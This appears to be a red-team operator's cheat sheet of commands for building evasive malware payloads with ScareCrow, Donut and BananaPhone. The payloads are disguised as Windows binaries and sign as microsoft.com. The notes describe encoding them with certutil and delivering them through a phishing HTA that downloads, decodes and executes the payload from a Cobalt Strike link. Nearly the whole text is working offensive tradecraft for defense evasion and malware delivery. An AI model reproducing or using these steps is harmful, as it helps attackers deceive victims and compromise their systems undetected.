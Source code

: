 	## Run scarecrow:
/root/tools/ScareCrow/ScareCrow -I /root/payloads/x64_raw.bin -Loader binary -domain microsoft.com
	## !! Output will be in the ScareCrow directory, named after a Windows binary such as OneDrive.exe or cmd.exe

# JS Scarecrow https://github.com/optiv/ScareCrow
/root/tools/ScareCrow/ScareCrow -I /root/payloads/x64_raw.bin -Loader control -O scarecrow.js -domain microsoft.com
	## Convert to text (move payload to Commando VM)
certutil -encode payload.exe cisa.txt
	## Move back to Kali
	## find/replace all occurrences of cisa in exe-downloader.hta template
	## Replace phishing domain
	## Replace exe and txt file names
		## Make sure exe is changed to js where appropriate
	## Create web link for exe-downloader.hta and cisa.txt in CobaltStrike
		## Target runs exe-downloader.hta, which downloads, converts, and executes cisa.txt

# EXE ScareCrow Donut Banana
	## donut https://github.com/TheWover/donut
	## More reading on donut: https://thewover.github.io/Introducing-Donut/
cd /root/tools/donut
make
/root/tools/donut/donut -a 2 -f 7 -o /root/payloads/donut_payload <name_of_scarecrow.exe>

# BananaPhone https://github.com/C-Sto/BananaPhone
git clone https://github.com/C-Sto/BananaPhone /root/tools/BananaPhone
cd /root/tools/BananaPhone
go get https://github.com/c-sto/bananaphone
cd /root/tools/BananaPhone/example/hideexample/banana/
subl /root/payloads/donut_payload
	## Copy main.go code from bananaphone directory into the donut_payload file
	## !! Add a comma to the end of the donut_payload byte code if it isn't there already
	## !! The donut_payload file can be very large, so copying and pasting banana's code into the donut_payload is more resource efficient